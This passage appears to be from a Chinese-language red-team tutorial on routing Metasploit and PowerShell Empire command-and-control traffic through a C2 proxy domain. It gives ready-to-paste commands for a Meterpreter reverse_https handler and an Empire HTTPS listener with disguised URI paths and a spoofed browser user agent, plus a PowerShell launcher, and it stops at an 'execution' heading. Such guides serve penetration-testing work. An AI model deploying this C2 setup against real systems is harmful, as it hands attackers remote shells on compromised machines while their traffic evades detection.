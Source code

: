 接下来，将LHOST设置为0.0.0.0，LPORT设置为80（端口号的设置可以根据后台C2服务器来选择）。我们还需要配置OverrideLHOST、OverrideLPORT、以及OverrideRequestHost来确保payload可以直接与C2代理服务器进行对话。我们可以将下面给出的命令直接复制粘贴到msfconsole中来配置并启动该模块：

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 80
set LURI /E0922BB0-684B-4ED3-967E-85D08880CFD5/m/Pwned
set OverrideLHOST myc2proxy.com
set OverrideLPORT 443
set OverrideRequestHost true
set ExitOnSession false
run –j
```

下图显示的是reverse_https的payload配置信息：

[![](https://p1.ssl.qhimg.com/t01c539aaf2b4dfa49c.png)](https://p1.ssl.qhimg.com/t01c539aaf2b4dfa49c.png)

<br>

**Empire的安装与配置**

虽然Empire是我最喜欢的一款工具，但是在配置代理服务器的过程中，使用Empire之前还是有几个障碍需要克服的，相比之下Metasploit的配置和使用就简单多了。在PowerShell v1中，初始链接序列所使用STAGE0、STAGE1和STAGE2是在empire.db的配置表中定义的。在我看来，我们是无法在Empire CLI中修改这部分数据的，所以我们必须直接手动修改数据库。但是，PowerShell Empire v2并没有使用这种架构。我建议各位同学使用git来下载Empire v2分支，命令如下：

```
cd /opt;git clone -b 2.0_beta https://github.com/adaptivethreat/Empire.git
```

下载完成之后，启动应用。由于Empire监听器所使用的端口必须与C2代理服务器的监听端口相同，所以Empire必须使用端口443和HTTPS协议。我们可以直接将下面给出的这段命令复制粘贴进Empire中来配置监听器：

```
listeners
uselistener http
set DefaultProfile /E0922BB0-684B-4ED3-967E-85D08880CFD5/e/admin/get.php,/E0922BB0-684B-4ED3-967E-85D08880CFD5/e/news.asp,/E0922BB0-684B-4ED3-967E-85D08880CFD5/e/login/process.jsp|Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0;rv:11.0) like Gecko
set Name EmpireC2
set CertPath /opt/Empire/data/empire.pem
set Host https://myc2proxy.com
set Port 443
execute
launcher powershell
```

Empire监听器的配置信息如下图所示：

[![](https://p3.ssl.qhimg.com/t0100a987807485d585.png)](https://p3.ssl.qhimg.com/t0100a987807485d585.png)

<br>

**执行**
